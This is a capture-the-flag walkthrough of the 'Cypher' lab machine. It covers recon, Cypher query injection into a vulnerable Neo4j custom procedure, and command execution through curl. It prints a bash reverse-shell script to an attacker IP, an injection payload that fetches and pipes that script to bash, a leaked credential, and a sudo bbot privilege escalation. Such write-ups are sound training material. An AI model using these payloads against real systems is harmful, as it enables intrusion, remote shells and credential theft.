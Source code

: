 ## Recon
-> nmap :
``` bash
╰─ nmap -sC -sV -p- -Pn --min-rate 10000 10.10.11.57 -oN Cypher-nmap 
Nmap scan report for 10.10.11.57
Host is up (0.093s latency).
Not shown: 62691 closed tcp ports (conn-refused), 2842 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 be:68:db:82:8e:63:32:45:54:46:b7:08:7b:3b:52:b0 (ECDSA)
|_  256 e5:5b:34:f5:54:43:93:f8:7e:b6:69:4c:ac:d6:3d:23 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cypher.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

-> Add `cypher.htb` to `/etc/hosts`:
`10.10.11.57 cypher.htb`

### source code :
i noticed in the source code a comment to make into consideration for later `TODO: don't store user accounts in neo4j` 
:
```javascript
<script>
    // TODO: don't store user accounts in neo4j
    function doLogin(e) {
      e.preventDefault();
      var username = $("#usernamefield").val();
```

-> This gives me the idea that neo4j handles backend authentication process

-> When i try an xss paylod i get this error :
`<IMG SRC= onmouseover="alert('xxs')">`

![Pasted image 20250423223733.png]

-> Indicating a **Cypher Injection** (injection for GQL), where there is a cypher query to fetch data like this :
```GQL
MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = '<USER_INPUT>' RETURN h.value AS hash
```

### directory fuzzing :


```bash
╰─ gobuster dir -u cypher.htb -w /usr/share/dirb/wordlists/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cypher.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 4562]
/about                (Status: 200) [Size: 4986]
/login                (Status: 200) [Size: 3671]
/demo                 (Status: 307) [Size: 0] [--> /login]
/api                  (Status: 307) [Size: 0] [--> /api/docs]
/testing              (Status: 301) [Size: 178] [--> http://cypher.htb/testing/]
```

![[Pasted image 20250423230317.png]]

#### APOC 
->Neo4j supports the APOC (Awesome Procedures on Cypher) Core library. The APOC Core library provides access to user-defined procedures and functions which extend the use of the [Cypher query language](https://neo4j.com/docs/cypher-manual/current/introduction/) into areas such as data integration, graph algorithms, and data conversion.


-> In the jar we find :
```java
public class CustomFunctions {  
    @Procedure(name = "custom.getUrlStatusCode", mode = Mode.READ)  
    @Description("Returns the HTTP status code for the given URL as a string")  
    public Stream<StringOutput> getUrlStatusCode(@Name("url") String url) throws Exception {  
        if (!url.toLowerCase().startsWith("http://") && !url.toLowerCase().startsWith("https://")) {  
            url = "https://" + url;  
        }  
        String[] command = {"/bin/sh", "-c", "curl -s -o /dev/null --connect-timeout 1 -w %{http_code} " + url};  
        System.out.println("Command: " + Arrays.toString(command));  
        Process process = Runtime.getRuntime().exec(command);  
        BufferedReader inputReader = new BufferedReader(new InputStreamReader(process.getInputStream()));  
        BufferedReader errorReader = new BufferedReader(new InputStreamReader(process.getErrorStream()));  
        StringBuilder errorOutput = new StringBuilder();
```

-> This code enables us to do a remote code execution 
### shell creation

First create a shell script to upload to the server :
```bash
echo "/bin/bash -i >& /dev/tcp/10.10.16.86/4444 0>&1" > shell.sh
```

-> Use a python http server to upload it 
```bash
python3 -m http.server 80
```
-> Run a nc listner in the declared port in shell.sh
```bash
nc -lvnp 4444
```

-> In burpsuite use below to gain foothold to the system (upload the shell and execute it)

```json
"username":"haha' return h.value as a UNION CALL custom.getUrlStatusCode(\"cypher.com; curl 10.10.16.86/shell.sh|bash;#\") YIELD statusCode AS a RETURN a;//","password":"test"
```

-> Here we get that the shell is uploaded :
```bash
╰─ sudo python3 -m http.server 80

[sudo] password for med: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.57 - - [24/Apr/2025 00:10:40] "GET /shell.sh HTTP/1.1" 200 -
```

-> And we have a shell :
```bash
╰─ nc -lvnp 4444

Listening on 0.0.0.0 4444
Connection received on 10.10.11.57 40898
bash: cannot set terminal process group (1446): Inappropriate ioctl for device
bash: no job control in this shell
neo4j@cypher:/$ 
```

-> We find a gfile called `bbot_preset.yml`

```bash
neo4j@cypher:/home/graphasm$ cat bbot_preset.yml
cat bbot_preset.yml
targets:
  - ecorp.htb

output_dir: /home/graphasm/bbot_scans

config:
  modules:
    neo4j:
      username: neo4j
      password: cU4btyib.20xtCMCXkBmerhK
```

-> We connect using ssh to `graphasm` and we got user flag :
```bash
╰─ ssh graphasm@cypher.htb
graphasm@cypher.htb's password: 

graphasm@cypher:~$ ls
bbot_preset.yml  user.txt
```

-> When we use `sudo -l` to see the abilities of our user we fin :
```bash
graphasm@cypher:~$ sudo -l
Matching Defaults entries for graphasm on cypher:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User graphasm may run the following commands on cypher:
    (ALL) NOPASSWD: /usr/local/bin/bbot

```
-> Our user can run an app caller bbot (which is an osint app)
-> After a bit of research i found a way to get around it and get the flag inspired by this amazing article : https://azraeldeathangel.medium.com/privilege-escalation-in-linux-via-bbot-binary-92558b4c7f30

-> where i will abuse the yara functionnality by specifying the root flag as a yara rule, the binary bbot then will display it's content in the debug information like this :

```bash
graphasm@cypher:~$ sudo /usr/local/bin/bbot -cy /root/root.txt --debug
  ______  _____   ____ _______
 |  ___ \|  __ \ / __ \__   __|
 | |___) | |__) | |  | | | |
 |  ___ <|  __ <| |  | | | |
 | |___) | |__) | |__| | | |
 |______/|_____/ \____/  |_|
 BIGHUGE BLS OSINT TOOL v2.1.0.4939rc

www.blacklanternsecurity.com/bbot
...

[DBUG] internal.excavate: Successfully loaded custom yara rules file [/root/root.txt]
[DBUG] internal.excavate: Final combined yara rule contents: XXXXXXXXXXXXXXXXXXXXXXXXXXXXX
...
```
